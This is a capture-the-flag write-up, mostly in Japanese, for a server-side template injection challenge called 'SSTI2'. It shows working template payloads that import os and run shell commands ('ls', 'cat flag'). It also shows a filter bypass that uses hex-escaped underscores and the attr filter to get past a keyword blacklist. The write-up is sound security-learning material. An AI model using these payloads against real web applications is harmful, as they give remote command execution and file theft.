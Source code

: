 ## SSTI2

### Description  

I made a cool website where you can announce whatever you want! I read about input sanitization, so now I remove any kind of characters that could be a problem :)
I heard templating is a cool and modular way to build web apps! 

要約すると、
なんかすごいwebサイトを作ったようだ
TTLI1のときから、サニタイズについて学び、修正を行ったようだ。

---

早速、webサイトにアクセスする。  
下のようなwebサイトが開く。


![](./TTL2(1).png)

欄に {{2*2}} と入力する。h1タグで 4 と表示された。  
コード実行は可能ということが分かった。

TTLI1の
```
{{request.application.__globals__.__builtins__.__import__('os').popen('ls').read()}}
```
を実行してみる
![](./image.png)

怒られた。TTL1の方法は使えないようだ。
__globals__などの特定の単語がブロックされている。
これを16進エンコードやattrを使って回避する
下の様にして、

```
{{ request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('ls')|attr('read')() }}
```
実行すると、下のようなファイルがあることが分かった。
```
__pycache__
app.py
flag
requirements.txt
```
flagファイルをcatする。
```
{{ request|attr('application')|attr('\x5f\x5fglobals\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fbuiltins\x5f\x5f')|attr('\x5f\x5fgetitem\x5f\x5f')('\x5f\x5fimport\x5f\x5f')('os')|attr('popen')('cat flag')|attr('read')() }}
```

Flagがゲットできた